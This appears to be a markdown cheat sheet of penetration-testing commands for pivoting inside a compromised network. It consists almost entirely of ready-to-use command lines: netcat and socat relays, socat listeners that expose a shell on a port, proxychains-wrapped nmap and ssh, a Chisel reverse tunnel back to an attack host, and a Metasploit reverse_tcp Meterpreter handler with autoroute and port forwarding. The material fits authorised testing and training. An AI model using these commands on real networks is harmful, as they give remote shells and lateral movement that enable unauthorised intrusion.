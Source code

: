 # Pivoting and Network Exploration

#### Using NetCat
- **Create a simple relay using NetCat to forward traffic between local and remote ports:**
	```bash
	nc -lvp <local_port> -c "nc <target_ip> <remote_port>"
	```
  
#### Using SoCat
- **`socat` Port forward for Bidirectional Communication:**
	```bash
	socat TCP4-LISTEN:<local_port>,fork TCP4:<remote_host>:<remote_port>
	```
- **`socat` Encrypted Tunnel:**
	```bash
	socat OPENSSL-LISTEN:<local_port>,cert=<cert.pem>,key=<key.pem>,verify=0 TCP:<target_ip>:<remote_port>
	```
- **`socat` Reverse Shell:**
	```bash
	socat TCP4-LISTEN:<local_port>,fork,bind=127.0.0.1 EXEC:'/bin/sh',pty,stderr,setsid,sigint,sane
	```
- **`socat` Reverse Shell Listener:**
	```bash
	socat TCP4-LISTEN:<local_port>,fork EXEC:/bin/bash
	```

#### Using ProxyChains 
- **`proxychains` Tunnel Nmap:**
	```bash
	proxychains nmap -sT <internal_ip>
	```
- **`proxychains` Tunnel SSH:**
	```bash
	proxychains ssh <target_user>@<internal_ip>
	```

#### Tunneling with Chisel
- **Start Chisel Server on Attack Host:**
	```bash
	./chisel server --reverse --port <local_port>
	```
- **Reverse Port Forward through Chisel Tunnel on Target Host:**
	```bash
	./chisel client <attack_ip>:<local_port> R:<local_port>:<target_ip>:<remote_port>
	```

#### Using Metasploit for Pivoting
- **Set Up a Meterpreter Session for Pivoting:**
	```bash
	use exploit/multi/handler
	set PAYLOAD windows/meterpreter/reverse_tcp
	set LHOST <your_ip>
	set LPORT <your_port>
	exploit
	```
- **Route Traffic Through a Meterpreter Session:**
	```bash
	meterpreter> run autoroute -s <network_range>
	meterpreter> run portfwd add -l <local_port> -p <remote_port> -r <target_ip>
	```
